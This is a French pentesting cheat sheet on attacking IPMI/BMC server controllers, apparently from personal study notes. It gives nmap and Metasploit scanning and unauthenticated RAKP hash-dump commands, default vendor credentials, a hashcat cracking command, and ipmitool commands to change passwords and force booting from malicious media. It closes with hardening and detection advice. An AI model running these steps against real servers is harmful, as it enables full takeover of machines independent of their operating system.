

## IPMI (Intelligent Platform Management Interface)

Ce diagramme illustre la chaîne d'attaque typique sur un contrôleur **BMC** via le protocole **IPMI**.



### Objectif
Obtenir un accès de niveau physique à la machine via le contrôleur **BMC** (**Baseboard Management Controller**), indépendamment de l'état de l'OS (système hors tension ou crashé).

### Port & Protocoles

| Port/Proto | Usage |
| :--- | :--- |
| `623/udp` | Protocole IPMI (RMCP/ASF) |
| `22/tcp` | SSH (si activé sur BMC) |
| `80/443` | Console web iDRAC/iLO |
| `23/tcp` | Telnet (rare mais possible) |

### Footprinting IPMI
L'énumération initiale s'effectue via **nmap** pour identifier la version, les méthodes d'authentification et le constructeur du **BMC**. Voir aussi [[Enumeration]].

```bash
nmap -sU -p 623 --script ipmi-version <target>
```

### Metasploit – Version Scan
Le module **Metasploit** permet d'automatiser la détection des services **IPMI** sur une plage réseau.

```bash
use auxiliary/scanner/ipmi/ipmi_version
set rhosts <target>
run
```

### Identifiants par défaut
Le test des identifiants par défaut est une étape critique lors de la phase de [[Network Pentesting]].

| Produit | Login | Password |
| :--- | :--- | :--- |
| Dell iDRAC | `root` | `calvin` |
| HP iLO | `Administrator` | (mot de passe 8 lettres/nombres) |
| Supermicro IPMI | `ADMIN` | `ADMIN` |

> [!tip]
> Tester systématiquement les identifiants par défaut via l'interface web, **SSH** ou **Telnet**.

### RAKP Hash Dumping
Le protocole **IPMI 2.0** est vulnérable au dump de hash **RAKP** (Remote Authentication Dial-In User Service Keyed-Hash Authentication Protocol).

> [!danger]
> Le dump de hash **RAKP** ne nécessite pas d'authentification préalable.

```bash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts <target>
run
```

### Crack offline
Une fois le hash récupéré, l'utilisation de **hashcat** avec le mode **-m 7300** permet de tenter un brute-force. Voir [[Password Cracking]].

```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

### Exploitation via outils dédiés (ipmitool, FreeIPMI)
Une fois les identifiants obtenus, l'interaction avec le **BMC** se fait via des outils d'administration système.

```bash
# Vérification de l'état du châssis
ipmitool -I lanplus -H <target> -U <user> -P <password> chassis status

# Lister les utilisateurs configurés
ipmitool -I lanplus -H <target> -U <user> -P <password> user list 1

# Modification du mot de passe utilisateur (ID 2)
ipmitool -I lanplus -H <target> -U <user> -P <password> user set password 2 <new_password>
```

### Post-exploitation (montage d'ISO, accès console KVM)
L'accès au **BMC** permet une persistance totale indépendante de l'OS, comme détaillé dans [[Linux]].

* **Montage d'ISO** : Permet de booter sur un LiveCD malveillant pour exfiltrer des données ou contourner l'authentification locale.
* **Accès KVM** : Utilisation de la console virtuelle pour interagir avec le BIOS ou l'OS en temps réel.

```bash
# Exemple de commande pour forcer le boot sur PXE ou CD
ipmitool -I lanplus -H <target> -U <user> -P <password> chassis bootdev cdrom
ipmitool -I lanplus -H <target> -U <user> -P <password> chassis power reset
```

> [!info]
> L'accès **IPMI** permet une persistance totale indépendante de l'OS.

### Dangers
> [!warning]
> Attention au risque de **DoS** lors de tests intrusifs sur des serveurs critiques.

### Contre-mesures et durcissement
* **Isolation réseau** : Placer les interfaces **BMC** sur un VLAN de gestion isolé sans accès depuis le réseau de production.
* **Durcissement** : Désactiver les protocoles non sécurisés (Telnet, HTTP) au profit de HTTPS et SSH avec clés.
* **Gestion des accès** : Appliquer des mots de passe complexes et uniques par contrôleur.
* **Mise à jour** : Appliquer les patchs constructeurs pour corriger les vulnérabilités **RAKP**.

### Détection des accès non autorisés
* **Logs** : Surveiller les journaux d'événements du **BMC** (System Event Log - SEL) pour les échecs d'authentification répétés.
* **IDS/IPS** : Détecter les scans **UDP** sur le port **623** et les tentatives de dump de hash **RAKP** (signatures spécifiques aux outils comme Metasploit).
* **Audit** : Vérifier régulièrement la liste des utilisateurs créés sur le **BMC**.

### Résumé rapide
L'**IPMI** est une cible de choix offrant un accès physique virtuel. La compromission repose souvent sur l'énumération des hashs **RAKP** ou l'utilisation d'identifiants par défaut, menant à une prise de contrôle totale du serveur.